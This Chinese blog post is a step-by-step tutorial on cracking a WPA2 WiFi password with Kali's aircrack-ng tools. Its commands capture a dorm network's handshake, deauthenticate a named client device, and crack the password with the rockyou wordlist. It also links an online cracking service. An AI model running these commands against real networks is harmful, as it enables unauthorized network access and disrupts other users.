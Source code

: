 ```yaml
---
layout:	post
title:	雕虫小技
date:   2018-06-06 13:00:12 +0800
categories: Kali
---
```


# 雕虫小技系列1

- 看到网上有关于使用**kali**破解WIFI的文章，去年CTF虽然曾使用过`aircrack-ng`对.cap包做过破解，但是还没有完整的进行过整个攻击过程，所以就想进行一次完整的实验
- 此文章中使用的是kali虚拟机和树莓派无线网卡
- **！随意破解他人WIFI犯法，请务必使用自己的WIFI进行实验！**
- 2018.7.17更新
  - 记录一个在线跑包的[网站](https://www.catpasswd.com/)，可以不用愁字典的问题了

---

1. 使用的网卡型号是EP-N8508GS ，网店店主说除了树莓派以外的系统都需要装驱动，但是在我的WIn10机器和kali虚拟机上都可以直接使用

   ![]({{ site.url }}/imgs/trics/WIFI.jpg)

2. 输入`iwconfig`查看网卡名称

   ![]({{ site.url }}/imgs/trics/kali1.png)

3. 输入`airmon-ng start wlan0 `启动网卡Monitor模式

   ![]({{ site.url }}/imgs/trics/kali2.png)

4. 发现两个可能造成问题的进程，先把他们关掉

   ```
   ~# service network-manager stop
   ~# airmon-ng check kill
   ```

   ![]({{ site.url }}/imgs/trics/kali3.png)

5. 再次使用`iwconfig`确认已经进入monitor模式

   ![]({{ site.url }}/imgs/trics/kali4.png)

6. 输入`airodump-ng wlan0mon`进行抓包

   ![]({{ site.url }}/imgs/trics/kali5.png)

   

7. 选择对宿舍WIFI: BSSID=8C:A6:DF:D2:D8:40 CH=1 加密方式为：WPA2的宿舍WIFI进行数据抓包，输入`airodump-ng wlan0mon --bssid 8C:A6:DF:D2:D8:40 -c 1 -w wpa2`，-w 表示数据包存储位置，只抓取该WPA的数据包

   ![]({{ site.url }}/imgs/trics/kali6.png)

8. 之后需要等待用户连接或是重新连接WIFI，但是运气不好会等很久。在此使用**aireplay-ng**，强制断开用户的WiFi连接，输入`aireplay-ng -0 2 -a 8C:A6:DF:D2:D8:40 -c 0C:51:01:04:44:84 wlan0mon`，参数解释：`-0`发起DE authentication攻击，`-a`指定路由器BSSID，`-c`指定强制断开的设备。

   ![]({{ site.url }}/imgs/trics/kali7.png)

9. 成功获得四步握手包，执行`airmon-ng stop wlan0mon`结束无线网卡监听

    ![]({{ site.url }}/imgs/trics/kali8.png)

10. 查看抓到的握手包

   ![]({{ site.url }}/imgs/trics/kali9.png)

11. 使用kali默认的字典进行破解，字典目录为：/usr/share/wordlists/rockyou.txt.zip ，执行`gunzip rockyou.txt.zip`解压

12. 执行`aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa2-02.cap`破解，此处有wpa2-01和wpa2-02两个文件，只需要关注最后一个文件

    ![]({{ site.url }}/imgs/trics/kali10.png)

13. 成功破解，也是因为宿舍WIFI是弱密码，由此可见WIFI密码设置不应该太随意